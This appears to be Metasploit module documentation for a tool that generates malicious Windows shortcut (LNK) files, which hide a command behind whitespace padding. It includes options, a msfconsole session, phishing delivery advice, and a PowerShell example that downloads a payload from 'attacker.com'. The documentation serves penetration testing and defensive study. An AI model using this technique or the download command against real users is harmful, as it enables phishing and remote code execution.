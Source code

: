 This module generates a malicious Windows shortcut (LNK) file that exploits padding in the command line arguments to execute arbitrary commands. It leverages environment variables and inserts whitespace padding to concatenate and run the specified payload when the LNK is opened.

The technique allows command execution without direct user interaction beyond opening the shortcut, making it useful for phishing or payload delivery scenarios.

## Vulnerable Application

Windows systems where LNK files are processed, such as in Explorer or when shortcuts are executed. This can lead to arbitrary command execution via manipulated command line buffers.

References:
- [ZDI-CAN-25373](https://www.zerodayinitiative.com/advisories/ZDI-CAN-25373/)
- [Windows LNK Research](https://zeifan.my/Windows-LNK/)
- [Gist Example](https://gist.github.com/nafiez/1236cc4c808a489e60e2927e0407c8d1)
- [Trend Micro Analysis](https://www.trendmicro.com/en_us/research/25/c/windows-shortcut-zero-day-exploit.html)

Disclosure Date: 2025-07-19.

## Verification Steps

1. Start msfconsole.
2. Load the module: `use auxiliary/fileformat/windows_lnk_padding`.
3. Set required options (e.g., FILENAME, COMMAND).
4. Optionally customize DESCRIPTION, ICON_PATH, or BUFFER_SIZE.
5. Execute the module: `run`.
6. A malicious LNK file will be generated.
7. Deliver the LNK file to the target Windows system.
8. Open the LNK file to trigger command execution (e.g., launching calc.exe).

## Options

### FILENAME

Specifies the name of the generated LNK file.

Default: `poc.lnk`

Example:
```
set FILENAME exploit.lnk
```

### COMMAND

The command to execute when the LNK is opened.

Default: `C:\\Windows\\System32\\calc.exe`

Example:
```
set COMMAND powershell.exe -c "Invoke-WebRequest -Uri http://attacker.com/payload"
```

### DESCRIPTION

Optional description for the LNK file. If not set, a random sentence is generated.

Example:
```
set DESCRIPTION Important Document
```

### ICON_PATH

Optional path to an icon for the LNK file. If not set, a random system icon path is generated.

Example:
```
set ICON_PATH %SystemRoot%\\System32\\shell32.dll
```

### BUFFER_SIZE

The size of the whitespace padding buffer before the command (must be sufficient to avoid truncation).

Default: 900

Example:
```
set BUFFER_SIZE 1000
```

## Scenarios

### Basic Command Execution on Windows

Target: Any Windows system (e.g., Windows 10 or later).

Generate an LNK that launches Calculator with custom padding:

```
msf > use auxiliary/fileformat/windows_lnk_padding
msf auxiliary(fileformat/windows_lnk_padding) > set FILENAME calc.lnk
FILENAME => calc.lnk
msf auxiliary(fileformat/windows_lnk_padding) > set COMMAND C:\\Windows\\System32\\calc.exe
COMMAND => C:\\Windows\\System32\\calc.exe
msf auxiliary(fileformat/windows_lnk_padding) > set BUFFER_SIZE 900
BUFFER_SIZE => 900
msf auxiliary(fileformat/windows_lnk_padding) > set DESCRIPTION Calculator Shortcut
DESCRIPTION => Calculator Shortcut
msf auxiliary(fileformat/windows_lnk_padding) > set ICON_PATH %SystemRoot%\\System32\\calc.exe
ICON_PATH => %SystemRoot%\\System32\\calc.exe
msf auxiliary(fileformat/windows_lnk_padding) > run

[*] Generating LNK file: calc.lnk
[+] Successfully created calc.lnk
[*] Command line buffer size: 900 bytes
[*] Target command: C:\\Windows\\System32\\calc.exe
[*] Auxiliary module execution completed
```

Deliver `calc.lnk` to the target (e.g., via email attachment or shared folder). When opened, it executes `calc.exe` using the padded command line. Monitor for execution side effects or adjust the COMMAND for more advanced payloads like downloading and running scripts.